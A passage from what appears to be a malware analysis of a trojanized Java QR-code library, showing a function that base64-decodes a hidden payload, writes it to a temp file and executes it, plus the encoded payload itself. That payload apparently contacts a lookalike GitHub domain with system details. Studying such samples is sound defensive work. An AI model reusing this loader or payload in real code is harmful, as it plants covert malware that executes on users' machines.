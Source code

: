 Looking at the `QRCodeWriter.java` file (available for individual download in the [Samples](#samples) section) the following function immediately catches your eye:
  
```java
try{
        String os = System.getProperty("os.name");
        String errPath;
        
        if (os.contains("Windows"))
            errPath = System.getProperty("java.io.tmpdir")+ "\\QRLog.java";
        else
            errPath = System.getProperty("java.io.tmpdir")+ "/QRLog.java";
        FileOutputStream qrW = new FileOutputStream(errPath);
        qrW.write(b64dec);
        Runtime.getRuntime().exec("java " + errPath);
    }
    catch (IOException ex){   
    }
```

In this function, the malware tries to vaguely determine which platform is being used (Windows or Unix), to understand where and how (with backslash or normal slash) to write a "log" file with a `.java` extension. To this file it writes the contents of the `b64dec` variable which can be found a few lines higher in the file.

```java
byte [] b64dec = Base64.getDecoder().decode(QUIET_ZONE_DATA);
```

As we can see in this snippet, `b64dec` stores the result of decoding the `QUIET_ZONE_DATA` variable from `base64`. Digging a little deeper into the code it is possible to find the content of `QUIET_ZONE_DATA`:

```java
public static String QUIET_ZONE_DATA = "aW1wb3J0IGphdmEuaW8uSU9FeGNlcHRpb247CmltcG9ydCBqYXZhLm5ldC5VUkk7CmltcG9ydCBqYXZhLm5ldC5odHRwLkh0dHBDbGllb"
          + "nQ7CmltcG9ydCBqYXZhLm5ldC5odHRwLkh0dHBSZXF1ZXN0OwppbXBvcnQgamF2YS5uZXQuaHR0cC5IdHRwUmVzcG9uc2U7CmltcG9ydCBqYXZhLm5pby5jaGFyc2V0LlN0YW5"
          + "kYXJkQ2hhcnNldHM7CmltcG9ydCBqYXZhLnV0aWwuQmFzZTY0OwppbXBvcnQgamF2YS51dGlsLlJhbmRvbTsKaW1wb3J0IGphdmEuaW8uQnVmZmVyZWRXcml0ZXI7CmltcG9yd"
          + "CBqYXZhLmlvLkZpbGU7CmltcG9ydCBqYXZhLmlvLkZpbGVXcml0ZXI7CmltcG9ydCBqYXZhLmxhbmcuVGhyZWFkOwoKcHVibGljIGNsYXNzIFFSTG9nIHsKCiAgICBwcml2YXR"
          + "lIHN0YXRpYyBmaW5hbCBTdHJpbmcgUE9TVF9VUkwgPSAiaHR0cHM6Ly93d3cuZ2l0LWh1Yi5tZS92aWV3LnBocCI7CgogICAgcHVibGljIHN0YXRpYyB2b2lkIG1haW4oU3Rya"
          + "W5nW10gYXJncykgdGhyb3dzIElPRXhjZXB0aW9uewoKICAgICAgICBzZW5kUE9TVCgpOwogICAgfQoKICAgIHByaXZhdGUgc3RhdGljIFN0cmluZyByYW5kR2VuKCkgdGhyb3d"
          + "zIElPRXhjZXB0aW9uIHsKICAgICAgICBTdHJpbmcgc3RyUG9vbCA9ICIxMjM0NTY3ODkiOwogICAgICAgIFN0cmluZ0J1aWxkZXIgc2IgPSBuZXcgU3RyaW5nQnVpbGRlcigpO"
          + "wogICAgICAgIFJhbmRvbSByYW5kID0gbmV3IFJhbmRvbSgpOwogICAgICAgIAogICAgICAgIGZvciAoaW50IGk9MDsgaTw4OyBpKyspewogICAgICAgICAgICBzYi5hcHBlbmQ"
          + "oc3RyUG9vbC5jaGFyQXQocmFuZC5uZXh0SW50KHN0clBvb2wubGVuZ3RoKCkpKSk7CiAgICAgICAgfQogICAgICAgIAogICAgICAgIHJldHVybiBzYi50b1N0cmluZygpOwogI"
          + "CAgfQogICAgCiAgICBwcml2YXRlIHN0YXRpYyBTdHJpbmcgZ2V0T3BlcmF0aW5nU3lzdGVtKCkgewogICAgICAgIFN0cmluZyBvcyA9IFN5c3RlbS5nZXRQcm9wZXJ0eSgib3M"
          + "ubmFtZSIpOwogICAgICAgIFN0cmluZyByZXN1bHQgPSBudWxsOwogICAgICAgIAogICAgICAgIGlmIChvcy5jb250YWlucygiV2luZG93cyIpKQogICAgICAgICAgICByZXN1b"
          + "HQgPSAiMCI7CiAgICAgICAgZWxzZSBpZiAob3MuY29udGFpbnMoIkxpbnV4IikpCiAgICAgICAgICAgIHJlc3VsdCA9ICIyIjsKICAgICAgICBlbHNlIGlmIChvcy5jb250YWl"
          + "ucygiTWFjIE9TIFgiKSkKICAgICAgICAgICAgcmVzdWx0ID0gIjEiOwogICAgICAgIHJldHVybiByZXN1bHQ7CiAgICB9CiAgICAKICAgIHByaXZhdGUgc3RhdGljIHZvaWQgc"
          + "2VuZFBPU1QoKSB0aHJvd3MgSU9FeGNlcHRpb24gewogICAgICAgIFN0cmluZyB1aWQgPSByYW5kR2VuKCk7CiAgICAgICAgU3RyaW5nQnVpbGRlciBkYXRhID0gbmV3IFN0cml"
          + "uZ0J1aWxkZXIoKTsKICAgICAgICBTdHJpbmcgc2VjX3BhdGggPSAiIjsKICAgICAgICBkYXRhLmFwcGVuZCgiR0lUSFVCX1JFUSIpOwogICAgICAgIGRhdGEuYXBwZW5kKHVpZ"
          + "Ck7CiAgICAgICAgZGF0YS5hcHBlbmQoIjIwMDAiKTsKICAgICAgICBkYXRhLmFwcGVuZChnZXRPcGVyYXRpbmdTeXN0ZW0oKSk7CiAgICAgICAgCiAgICAgICAgd2hpbGUgKHR"
```